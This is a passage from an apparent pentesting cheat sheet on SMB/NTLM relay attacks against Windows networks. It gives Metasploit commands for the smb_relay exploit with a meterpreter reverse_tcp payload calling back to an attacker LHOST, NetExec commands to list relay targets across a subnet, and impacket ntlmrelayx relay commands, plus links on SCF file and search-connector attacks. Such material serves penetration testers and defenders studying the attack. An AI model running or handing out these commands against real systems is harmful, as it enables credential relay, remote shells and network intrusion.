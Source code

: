 {% tab title="2. MSF" %}
```bash
msf6 > use exploit/windows/smb/smb_relay
msf6 exploit(windows/smb/smb_relay) > set relay_targets
msf6 exploit(windows/smb/smb_relay) > set srvhost 172.16.10.3
msf6 exploit(windows/smb/smb_relay) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/smb_relay) > set LHOST 10.10.10.10
msf6 exploit(windows/smb/smb_relay) > exploit
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="1. Enum" %}
```bash
nxc smb 172.16.10.0/24 --gen-relay-list relay.txt
```
{% endtab %}

{% tab title="2. Relay" %}
```bash
sudo impacket-ntlmrelayx.py -tf relay.txt -smb2support --no-http
```
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="Search Connectors" %}
{% embed url="https://dtm.uk/exploring-search-connectors-and-library-files-on-windows/" %}
{% endtab %}

{% tab title="SCF File Attacks" %}
{% embed url="https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/" %}
{% endtab %}
{% endtabs %}
